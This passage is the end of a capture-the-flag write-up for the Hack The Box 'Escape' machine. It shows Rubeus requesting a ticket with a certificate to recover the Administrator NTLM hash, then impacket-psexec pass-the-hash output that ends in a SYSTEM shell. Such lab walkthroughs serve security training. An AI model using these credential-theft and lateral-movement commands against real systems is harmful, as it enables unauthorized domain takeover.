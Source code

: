 ```
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2

[*] Action: Ask TGT
```

Now that we have this ticket we can try to drop the administrator's NTLM hash

```
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\temp\cert.pfx /getcredentials /show /nowrap
```

It worked! We now have the admin hash:

escape_admin_hash.png

We can now pass-the-hash with impacket-psexec:

```
┌──(ryan㉿kali)-[~/HTB/Escape]
└─$ impacket-psexec Administrator@10.10.11.202 -hashes aad3b435b51404eeaad3b435b51404ee:A52F78E4C751E5F5E17E1E9F3E58F4EE
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.11.202.....
[*] Found writable share ADMIN$
[*] Uploading file gQuKoxrr.exe
[*] Opening SVCManager on 10.10.11.202.....
[*] Creating service BzXO on 10.10.11.202.....
[*] Starting service BzXO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And grab the final flag:

escape_root.png

Thanks for following along!

-Ryan

